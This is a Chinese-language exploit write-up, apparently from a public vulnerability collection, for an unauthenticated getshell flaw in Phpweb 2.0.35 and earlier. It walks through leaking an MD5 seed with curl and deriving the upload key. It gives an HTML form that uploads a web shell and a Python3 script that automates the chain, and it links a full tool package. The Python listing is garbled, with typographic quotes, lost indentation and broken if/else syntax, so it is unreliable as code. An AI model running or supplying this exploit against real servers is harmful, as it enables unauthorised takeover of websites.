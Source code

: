 ```yaml
---
title: "Phpweb 前台getshell"
id: zhfly3089
---
```


# Phpweb 前台getshell

## 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

## 二、漏洞影响

Phpweb<=2.0.35

## 三、复现过程

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

```
curl "http://website/base/post.php" -H "act=appcode" 
```

![image](../img/1ba358c0c303d0b13bf1983dbc606362.png)

```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值 
```

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + “a”)

得到加密后的MD5值!

```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)! 
```

3.Getsehll exp:

```
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html> 
```

![image](../img/8d43c23314a44b186c5dda624aa0ecc0.png)

然后…Getshell!

![image](../img/bfce9b78d436f78a51738455fcaca002.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

http://www.0-sec.org/effect/source/bg/shell名称.php

![image](../img/c266706989d38f71f2a1cace09867132.png)

### 工具编写

Python exp[Python3]:

```
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()

headers = open(bdlj+"\headers.txt",‘r’)

headerss = headers.read()

print(’\b’)

ur = input(“请输入目标网址:”)

requrl =  ur + ‘/base/post.php’

reqdata = {“act”:“appcode”}

r = requests.post(requrl,data=reqdata)

cz=r.text[2:34]

print (‘初值:’ + cz)

cz=r.text[2:34]+“a”

m = hashlib.md5()

b = cz.encode(encoding=‘utf-8’)

m.update(b)

zz = m.hexdigest()

print (‘终值:’ + zz)

infile = open(bdlj + “\datas.txt”, “r”,encoding=‘utf-8’)

outfile = open(bdlj + “\datah.txt”, “w”,encoding=‘utf-8’)

for line in infile:

outfile.write(line.replace(‘156as1f56safasfasfa’, zz))

infile.close()

outfile.close()

datas = open(bdlj+"\datah.txt",‘r’)

datass = datas.read()

gs = requests.post(ur + ‘/base/appfile.php’,data=datass,headers={‘Content-Type’:headerss})

gs.encoding = ‘utf-8’

print (gs.text) `if {gs.text == “OK”}:

print (“Getshell成功! Shell:” + ur + “/effect/source/bg/mstir.php”)

else:

print (“Getsehll失败!”)` 
```

整包下载地址:https://github.com/ianxtianxt/Phpweb-Getshell-py

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![image](../img/726d37656ac5cc44ac6813d93aa1624a.png)

## 参考链接

> https://m4tir.github.io/Phpweb-Reception-Getshell